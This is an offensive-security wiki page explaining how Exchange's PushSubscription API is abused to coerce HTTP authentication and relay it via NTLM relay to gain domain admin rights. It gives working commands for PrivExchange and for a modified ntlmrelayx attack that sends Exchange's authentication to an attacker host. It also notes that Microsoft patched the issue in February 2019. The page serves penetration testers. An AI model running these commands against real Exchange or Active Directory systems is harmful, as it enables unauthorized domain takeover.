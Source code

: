 # PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../../../ad/movement/mitm-and-coerced-authentications/broken-reference/)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../../../ad/movement/mitm-and-coerced-authentications/broken-reference/) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

## Resources

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}

